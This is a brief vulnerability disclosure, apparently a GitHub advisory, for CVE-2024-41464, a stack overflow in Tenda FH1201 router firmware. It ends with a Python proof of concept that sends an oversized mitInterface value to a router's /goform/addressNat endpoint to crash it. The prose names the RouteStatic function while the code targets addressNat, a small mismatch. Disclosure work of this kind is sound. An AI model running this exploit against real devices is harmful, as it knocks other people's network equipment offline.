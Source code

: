 # RouteStatic2

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41464

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the RouteStatic function.The parameter mitInterface is copied to stackspace v6 via the sprintf function without checking the length,so an attacker can cause a denial of service attack by controlling the page parameter

![image-20240724100048396](./image-20240724100048396.png)

### poc

```python
import requests

ip = '192.168.74.145'

url = f"http://{ip}/goform/addressNat"

data = {"mitInterface": "a"*999}

ret = requests.post(url, data)

```



